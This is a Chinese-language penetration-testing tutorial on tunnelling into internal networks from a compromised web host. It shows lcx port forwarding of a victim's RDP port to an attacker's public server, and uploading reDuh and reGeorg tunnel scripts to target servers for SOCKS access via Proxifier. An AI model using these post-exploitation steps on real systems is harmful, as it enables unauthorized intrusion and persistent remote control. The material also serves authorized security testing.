

内网穿透方式
渗透测试过程中，经常会遇到以下场景：通过web脚本漏洞获得了某web主机的system权限，甲方有进一步的内网渗透测试需求，以证明企业所面临的巨大风险，这个时候就需要做内网的域渗透。
零、NAT网络地址转换？
网络地址转换（Network Address Translation，NAT）机制的问题在于，NAT设备自动屏蔽了非内网主机主动发起的连接，也就是说，从外网发往内网的数据包将被NAT设备丢弃，这使得位于不同NAT设备之后的主机之间无法直接交换信息。 一方面保护了内网主机免于来自外部网络的攻击，另一方面也为P2P通信带来了一定困难。 外部主机要与内网主机相互通信，必须由内网主机主动发起连接，使 NAT设备产生一个映射条目，这就有必要研究一下内网穿透技术。
1️⃣在同一局域网下的远程控制
如果开启了3389远程登陆，那么直接远程就好了
①右击我的电脑，选择属性后点击远程控制，点击允许远程控制此计算机，按win+R，输入cmd进入dos，输入ipconfig查看本机IP，由于远程控制要求被控制电脑的账户有密码，所以如果没有设置账户密码的话还要再dos下输入net user Administrator XXX，XXX是你的密码
②在另一台电脑上按win+R，输入mstsc，再在弹出的页面输入被控制电脑的ip，然后再输入用户名Administrator和你刚才设置的密码。
💦连接成功，测试一下发现几乎没有延迟，仿佛用的就是被控制的电脑，希望外网控制时也能这样快。
2️⃣通信双方一台位于NAT 之后
攻击者这边，要有一个有 公网IP的服务器，以便接收反向连接
第一：Webshell如何开启3389服务
①、通过修改注册表开启远程终端
详情参考： 🤖开启3389常用终端命令篇章
②、通过webshell上传3389工具开启远程终端
第二：如果服务器端口被修改如何查找？
目前主要通过注册表读取、端口扫描、命令探针等三种方法查找修改后的端口。
第三：如何远程连接内网电脑?
1、通过lcx端口转发
概念：
- 首先内网中的主机一般都是使用的私有ip，在网络出口处经过NAT转换为公网ip后，才能访问internet。
- 所以，有时当我们进入网站后台cmd，或者捕获了一台内网中的肉鸡，是无法主动去链接这台肉鸡的，也不好在别人的路由器上做端口映射，这就体现lcx的作用了。
- lcx实现端口转发，将肉鸡A上的某个端口(常用的3389)，转发到具有公网地址的主机B上，这样我们只需要连接主机B的3389端口就相当于连接到了肉鸡A上，从而突破了内网私有ip的限制。
步骤：
- 获取webshell后： 上传一个cmd.exe文件和lck.exe，然后setp cmd.exe设置终端路径解决运行权限问题。
- Webshell上执行：
cmd #将本机(肉鸡)3389端口流量转发到公网ip的2222端口上去 lcx.exe -slave 自己的公网ip 2222 127.0.0.1 3389 - 自己的服务器里面执行：
cmd # 监听本地的2222端口将流量转发到4444 lcx.exe -listen 2222 4444 - 最后通过3389连接172.0.0.1:4444即可
2、通过reDuh端口转发脚本
概念
ReDuh 是一个通过 HTTP 协议建立隧道传输各种其他数据的工具。其可以把内网服务器的端口通过 http/https 隧道转发到本机，形成一个连通回路。用于目标服务器在内网或做了端口策略的情况下连接目标服务器内部开放端口。
步骤：
-
将reDuh.php上传到目标服务器
-
在物理机成功访问reDuh.php ***.com/reDuh.php
-
打开客户端reDuhGUI.exe，进行连接，然后就可以用3389进行连接了
3️⃣通信双方均位于NAT设备之后
使用reGeorg+Proxifier
概念
有时候你路由器的ip并不是公网ip,也就是说你的路由器也是另一层局域网下的设备，这种情况下只对你的路由器进行端口映射然并卵，因为你始终拿不到最顶层路由ip。 步骤：
- 将tunnel.nosocket.php上传至目标主机
-
通过网页能正常访问tunnel.nosocket.php后 再打开reGeorgSocksProxy.py脚本文件进行配置
python \reGeorgSocksProxy.py -p 9999 -u ***.com3. 安装Proxifier，并设置代理规则。除reGeorgSocksProxy.py外，其余都设置为通过代理

- 完成上述步骤后，即可访问目标的内部网络
补充：关于burp+Proxifier结合抓包
如微信等有很多APP现在是防代理的或者黑名单防御，但是抓包中间加一个环节使用这个Proxifier软件作为中间代理，就可以应对了，因为socks是很正规的 方法
- 在电脑上装模拟器
- 把burp ca证书丢在模拟器里加载
- 设置规则 新建规则 让模拟器这个进程所有数据包走socks就可以了 注意：结合使用的工具不要进行拦截，要选择direct模式
- 访问验证